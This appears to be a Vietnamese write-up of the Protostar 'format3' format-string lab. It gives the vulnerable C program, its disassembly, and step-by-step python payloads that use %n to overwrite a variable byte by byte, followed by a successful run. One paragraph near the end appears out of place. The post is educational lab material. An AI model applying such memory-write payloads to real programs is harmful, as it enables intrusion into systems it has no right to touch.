 ```yaml
---
layout: post
title: format3
---
```


Trong bài này, chúng ta sẽ tiếp tục dùng `printf` với `%n` một cách linh hoạt hơn.
Thay vì chỉ ghi một giá 4 byte, chúng ta có thể dùng `printf` để ghi từng thành phần byte

Sau đây là source code và asm code của chương trình format3.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
```asm
0x08048454 <printbuffer+0>:     push   ebp
0x08048455 <printbuffer+1>:     mov    ebp,esp
0x08048457 <printbuffer+3>:     sub    esp,0x18
0x0804845a <printbuffer+6>:     mov    eax,DWORD PTR [ebp+0x8]
0x0804845d <printbuffer+9>:     mov    DWORD PTR [esp],eax
0x08048460 <printbuffer+12>:    call   0x804837c <printf@plt>
0x08048465 <printbuffer+17>:    leave
0x08048466 <printbuffer+18>:    ret
0x08048467 <vuln+0>:    push   ebp
0x08048468 <vuln+1>:    mov    ebp,esp
0x0804846a <vuln+3>:    sub    esp,0x218
0x08048470 <vuln+9>:    mov    eax,ds:0x80496e8
0x08048475 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048479 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x08048481 <vuln+26>:   lea    eax,[ebp-0x208]
0x08048487 <vuln+32>:   mov    DWORD PTR [esp],eax
0x0804848a <vuln+35>:   call   0x804835c <fgets@plt>
0x0804848f <vuln+40>:   lea    eax,[ebp-0x208]
0x08048495 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048498 <vuln+49>:   call   0x8048454 <printbuffer>
0x0804849d <vuln+54>:   mov    eax,ds:0x80496f4
0x080484a2 <vuln+59>:   cmp    eax,0x1025544
0x080484a7 <vuln+64>:   jne    0x80484b7 <vuln+80>
0x080484a9 <vuln+66>:   mov    DWORD PTR [esp],0x80485a0
0x080484b0 <vuln+73>:   call   0x804838c <puts@plt>
0x080484b5 <vuln+78>:   jmp    0x80484ce <vuln+103>
0x080484b7 <vuln+80>:   mov    edx,DWORD PTR ds:0x80496f4
0x080484bd <vuln+86>:   mov    eax,0x80485c0
0x080484c2 <vuln+91>:   mov    DWORD PTR [esp+0x4],edx
0x080484c6 <vuln+95>:   mov    DWORD PTR [esp],eax
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave
0x080484cf <vuln+104>:  ret
0x080484d0 <main+0>:    push   ebp
0x080484d1 <main+1>:    mov    ebp,esp
0x080484d3 <main+3>:    and    esp,0xfffffff0
0x080484d6 <main+6>:    call   0x8048467 <vuln>
0x080484db <main+11>:   mov    esp,ebp
0x080484dd <main+13>:   pop    ebp
0x080484de <main+14>:   ret
```

Để tìm được địa chỉ của `target`, dùng objdump như 2 bài trước. Kết quả cho thấy `target` được lưu tại `0x080496f4`.
Tiếp theo ta tìm khoảng cách từ `esp` đến địa chỉ của formatted string cũng như bài trước. Kết quả cho thấy khoảng cách này là 44 byte, tương đương với tham số thứ 12 khi gọi hàm `printf`.
Giá trị cần ghi vào `target` là `0x01025544`.
Ta có thể làm tương tự như bài trước bằng cách xây dựng 4 byte địa chỉ, đi kèm với in ra 16,930,112 ký tự với `%x` như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"'
```

Ta cũng có thể ghi từng byte thành phần như sau.
Đầu tiên, cần tách giá trị `0x01025544` thành:
* `0x01` lưu vào `0x080496f7`
* `0x02` lưu vào `0x080496f6`
* `0x55` lưu vào `0x080496f5`
* `0x44` lưu vào `0x080496f4`

Tuy nhiên, thứ tự lưu cần được lưu ý, vì mỗi lần lưu vào địa chỉ `0xY` thì 4 byte từ `0xY` đến `0xY + 3` sẽ bị thay đổi theo.
Ví dụ nếu ta lưu `0x01` vào `0x080496f7`, ta sẽ được giá trị của `target` như sau.
<pre class="memory">
0x080496f4:     0x<span style="color:orangered">01</span>000000
</pre>
Sau đó, ta lưu `0x02` vào `0x080496f6` thì giá trị tại `0x080496f7` sẽ mất đi (trở về `0x00` do ghi `0x02` tương đương với `0x0002`).
<pre class="memory">
0x080496f4:     0x00<span style="color:orangered">02</span>0000
</pre>

Lưu ý thứ 2 đó là chúng ta không thể giảm giá trị sẽ được lưu khi lệnh `printf` tiếp diễn.
Cụ thể, vì bản chất của `printf` kết hợp với `%n` là ghi số lượng ký tự đã được in ra màn hình, giá trị được lưu với `%n` chỉ tăng dần theo thời gian cho đến khi `printf` kết thúc.
Do vậy, đối với bài này, chúng ta có thể ghi theo trình tự như sau.
* `0x44` lưu vào `0x080496f4`
* `0x55` lưu vào `0x080496f5`
* `0x0102` lưu vào `0x080496f6`

Với cách ghi này, ta cần xây dựng formatted string có cả 3 địa chỉ trên.
Rất may, với 3 địa chỉ này ở đầu formatted string, chúng ta chỉ tiêu tốn 12 ký tự in ra, nhỏ hơn giá trị 68 (hay `0x44`) cho lần ghi đầu tiên.
Ta cần in ra thêm 56 ký tự khác với `%x`.
Formatted string mở đầu như sau.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n"'
```

Sau lần ghi đầu, chúng ta đã in ra 68 ký tự.
Ở lần ghi thứ 2, cần thêm 17 ký tự nữa để đạt đủ 85 (hay `0x55`) cho lần ghi thứ hai.
Và ở lần ghi thứ hai, chúng ta sẽ ghi vào địa chỉ ở tham số thứ 13.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n"'
```

Tương tự, với lần ghi cuối, ta cần thêm 173 ký tự để đạt đủ 258 (hay `0x0102`).
Lần ghi cuối này sẽ ghi vào địa chỉ ở tham số thứ 14.

```bash
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"'
```

Chạy thử chương trình, ta được như sau.
```bash
format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
```

Chúng ta sẽ dựng formatted string dựa trên địa chỉ này.
Thành phần sẽ gồm 4 byte địa chỉ ở đầu. Tiếp theo, ta cần ghi thêm lệnh in 60 byte nữa trước khi sử dụng `%n` để ghi vào `target`.
Chúng ta cũng cần biết khoảng cách từ `esp` đến địa chỉ của formatted string.
Cách làm tương tự như bài trước, đó là dùng formatted string có cờ dạng `AAAA` ở đầu và các chuỗi `%x.` để xác định vị trí cờ sau khi in ra.

```bash
python -c "print 'AAAA' + '%x.' * 100"
```
<pre class="memory">
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
<span style="color:aqua">you have modified the target :)</span>
</pre>

Mục tiêu hoàn thành!

## Ref
```bash
user@protostar:~$ format3 <<< $(python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n"')
                                                       0         bffff5b0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
